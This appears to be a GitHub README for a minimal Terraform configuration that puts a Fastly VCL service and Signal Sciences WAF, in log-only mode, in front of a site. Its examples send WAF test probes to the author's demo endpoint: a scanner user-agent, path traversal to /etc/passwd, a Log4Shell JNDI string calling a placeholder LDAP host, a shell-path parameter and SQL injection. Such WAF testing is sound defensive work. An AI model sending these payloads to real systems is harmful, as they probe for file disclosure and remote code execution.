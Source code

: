 # minimum terraform edgewaf

## what
a bare minimum syntax example for getting a vcl+edgewaf service setup in front of a site

the vcl service is configured to pass all traffic (not cache)

the waf site is configured to log attacks (not block)

this provides traffic graphs in the fastly ui, and attack data in the sigsci ui, without affecting traffic

## howto
```
git clone https://github.com/jbartus/mtfew.git
cd mtfew/
terraform init
export FASTLY_API_KEY=
export SIGSCI_CORP=
export SIGSCI_EMAIL=
export SIGSCI_TOKEN=
terraform apply
```

## examples
```
curl https://mtfew.global.ssl.fastly.net/headers

curl https://mtfew.global.ssl.fastly.net/headers -H 'user-agent: nikto'

curl 'https://mtfew.global.ssl.fastly.net/headers?run=/bin/bash'

curl 'https://mtfew.global.ssl.fastly.net/headers?cat=../../../etc/passwd'

curl https://mtfew.global.ssl.fastly.net/headers -H 'x-attack: ${jndi:ldap://foo.bar.local:9999/path}'

curl 'https://mtfew.global.ssl.fastly.net/headers?user=1+ORDER+BY+11'
```
